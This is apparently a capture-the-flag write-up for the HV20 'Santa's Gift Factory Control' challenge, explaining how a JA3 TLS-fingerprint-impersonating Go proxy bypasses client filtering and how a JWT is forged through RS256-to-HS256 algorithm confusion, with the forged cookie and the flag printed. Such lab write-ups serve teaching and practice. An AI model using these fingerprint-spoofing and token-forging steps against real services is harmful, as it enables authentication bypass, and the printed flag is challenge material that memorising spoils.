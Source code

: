 [← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)


# Day 17 / HV20.17 Santa's Gift Factory Control



## Challenge

<!-- ...10....:...20....:...30....:...40....:...50....:...60....:...70....:. -->
* Author: fix86
* Tags:   `#crypto` `#web-security`
* Level:  Hard

Santa has a customized remote control panel for his gift factory at the north
pole. Only clients with the following fingerprint seem to be able to connect:

`771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0`


### Mission

Connect to Santa's super-secret control panel and circumvent its access
controls.

[Santa's Control Panel](https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land/)


### Hints

* If you get a `403 forbidden`: this is part of the challenge
* The remote control panel does client fingerprinting
* There is an information leak somewhere which you need to solve the challenge
* The challenge is not solvable using brute force or injection vulnerabilities
* Newlines matter, check your files



## Solution


### Overcoming the 403

Searching the web for the finger print number from the challenge description
unveils that it's a [JA3 finger print](https://github.com/salesforce/ja3).

There is only one project discoverable on the web that provides the means to
mimic a JA3 finger print. It's called [JA3Transport] and it's written in Go.
Here is a [blog post] kind of article about impersonating JA3 finger prints.

[JA3Transport]: https://github.com/cucyber/JA3Transport
[blog post]: https://medium.com/cu-cyber/impersonating-ja3-fingerprints-b9f555880e42

The project was used to ultimately build a proxy (thanks again _mcia_) thus
enabling to use a standard web browser while impersonating the JA3 finger print …

```go
package main

import (
	"fmt"
	"github.com/CUCyber/ja3transport"
	"log"
	"net/http"
	"net/http/httputil"
	"net/url"
)

func main() {
	// start proxy
	http.HandleFunc("/", Proxy)
	fmt.Println("About to listen on port 8081...")
	log.Fatal(http.ListenAndServe(":"+"8081", nil))
}

func Proxy(res http.ResponseWriter, req *http.Request) {
	uri := "https://876cfcc0-1928-4a71-a63e-29334ca287a0.rdocker.vuln.land"
	serveReverseProxy(uri, res, req)
}

func serveReverseProxy(target string, res http.ResponseWriter, req *http.Request) {
	// parse the url
	uri, _ := url.Parse(target)
	tr, _ := ja3transport.NewTransport("771,49162-49161-52393-49200-49199-49172-49171-52392,0-13-5-11-43-10,23-24,0")

	proxy := httputil.NewSingleHostReverseProxy(uri)
	proxy.Transport = tr
	proxy.ServeHTTP(res, req)
}
```

Now that the page is accessible, it looks like this …

![](screenshot_login.png)


### Searching and finding an additional angle

After erratic attempts to find any aspect about this web page that could be
leveraged, finally the topic [JSON Web Token] came into the focus of attention.

[JSON Web Token]: https://en.wikipedia.org/wiki/JSON_Web_Token

While trying to login with the credentials `admin`/`admin`, two noticeable
things happened:

1. The browser was suddenly given a JSON Web Token cookie.
2. There was a strange message in the HTML source code …

   `<!--DevNotice: User santa seems broken. Temporarily use santa1337.-->`

   This is probably the info leak that is mentioned in the challenge hints.

There exists a set of [critical vulnerabilities regarding JSON Web Tokens][vuls]
that are – at least to me – astounding. The vulnerability that is used for this
challenge is the sweetest of the bunch.

[vuls]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/

For a [JSON Web Token] there are at least two signing algorithms available:
_RSA_ and _HMAC_

With _HMAC_ the idea is that the signing key is kept secret i.e. is available
only to the server. As a consequence only the server can verify authenticity of
a token.

With _RSA_ the signing key is a secret private key and the verification key is
a public key. Not only the server but everybody can verify the authenticity of
such tokens. The URL to the public key is even part of the token.

The vulnerability originates in the fact that the server side library that
handles the tokens can be told by the user that any given token was not signed
with the _RSA_ method (as previously published by the server) but was signed
with the _HMAC_ method. The fatality about this is that the server will
automatically assume, that the public _RSA_ key is a private _HMAC_ key and
will use it to verify the token. And since that key is public to anyone, the
attacker can use it to sign arbitrary tokens. How cool is that ? `(o_O)`


### Cookie modding

The genuine cookie that was received from the server is decoded into the
following structure …

```json
Header:
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "/keys/1d21a9f945"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "none"
}

Signature:
{
   [some bytes]
}
```

Next the public key is retrieved from the server …

```
$ curl -O http://localhost:8081/keys/1d21a9f945"
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY
Ri7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb
SYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs+2tmcgui/bFn
wC+qByZtIlsP+rlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3
US8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq+tH95/9u
X/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw
zwIDAQAB
-----END PUBLIC KEY-----
```

At last a new cookie is forged (with the help of [CyberChef]) intentionally with
the _wrong_ signing method _HMAC_. The user name from the information leak is
also included. This produces the following cookie header and payload …

[CyberChef]: https://gchq.github.io/CyberChef/#recipe=JWT_Sign('-----BEGIN%20PUBLIC%20KEY-----%5CnMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA0KDtdDsZ/wpGXWRnP6DY%5CnRi7OxTWiwPVg8eTsVcmbzAkk2r4itb3NqRw9xpJeUHorgfw1f9GkuAFg/squMrXb%5CnSYM0Vcxqmtsq379xCw6s0pxIafPR7TEAVRh5Mxrudl2lwiO4vJPs%2B2tmcgui/bFn%5CnwC%2BqByZtIlsP%2BrlT/MF2wLaWe/LNAWtOXdFVDOzUy6ylLZeL6fRtt9SiuUOQkkC3%5CnUS8TmvVQYcCcwvu4GBJeGdlKrbIuXIohl7hP5i9/KZ3kIvzByp/Xk5iq%2BtH95/9u%5CnX/9FHKUSrcRE4NYVRhkqHPpn/EbqXHMX0BM0QoGETORlpZIo/lAOQ7/ezOd9z1fw%5CnzwIDAQAB%5Cn-----END%20PUBLIC%20KEY-----%5Cn','HS256')&input=ewogICJleHAiOiAxNjA5NDE2NTAyLAogICJpYXQiOiAxNjA5NDEyOTAyLAogICJzdWIiOiAic2FudGExMzM3Igp9

```json
Header:
{
  "alg" : "HS256",
  "typ" : "JWT"
}

Payload:
{
  "exp": 1609416502,
  "iat": 1609412902,
  "sub": "santa1337"
}
```

The completely encoded cookie …

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE2MDk0MTY1MDIsImlhdCI6MTYwOTQxMjkwMiwic3ViIjoic2FudGExMzM3In0.8QCk0LVJEEf-zieqEE6DPf3QM8nAgYmSqTw9Pei8Jvc
```

… is used to replace the cookie that was received from the server earlier.

Et voilà, the server thinks it's Santa and gives access:

![](screenshot_access.png)

The flag is in a comment in the HTML source code:

```html
<!DOCTYPE html>
<html>
    <head>
        <meta charset="utf-8">
        <title>Santa's Control Panel</title>
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <link href="static/bootstrap/bootstrap.min.css" rel="stylesheet" media="screen">
        <link href="static/fontawesome/css/all.min.css" rel="stylesheet" media="screen">
        <link href="static/style.css" rel="stylesheet" media="screen">
    </head>
    <!--Congratulations, here's your flag: HV20{ja3_h45h_1mp3r50n4710n_15_fun}-->
    <body class="loggedin">
        <nav class="navtop">
            <div>
```

--------------------------------------------------------------------------------

Flag: `HV20{ja3_h45h_1mp3r50n4710n_15_fun}`

[← Day 16](../day16/) / [↑ TOC](../README.md) / [→ Day 18](../day18/)
